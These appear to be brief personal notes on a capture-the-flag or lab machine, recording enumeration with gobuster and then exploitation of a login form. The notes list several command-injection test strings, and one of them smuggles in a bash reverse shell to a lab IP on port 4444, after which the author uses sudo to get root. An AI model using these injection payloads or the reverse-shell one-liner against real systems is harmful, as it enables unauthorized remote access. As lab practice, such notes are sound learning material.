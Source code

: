 
![[Pasted image 20250318213356.png]]
shows it is running a site using python3 on port 80

ran gobuster and found a login page:
![[Pasted image 20250318214318.png]]
/console shows something very interesting 
![[Pasted image 20250318214400.png]]
login is a bit confusing but i will try some basic passwords just to see, nothing... will try command injecting some stuff


in login i tried a bunch of different command injections as follows:
```
test && whoami
test ; whoami
test | whoami
test `whoami`
test $(whoami)
```

test `whoami` returned yelnat

so i ran test ; `bash -c 'bash -i >& /dev/tcp/192.168.45.230/4444 0>&1'`
and got reverse shell where i ran sudo su and was able to get root and flag.
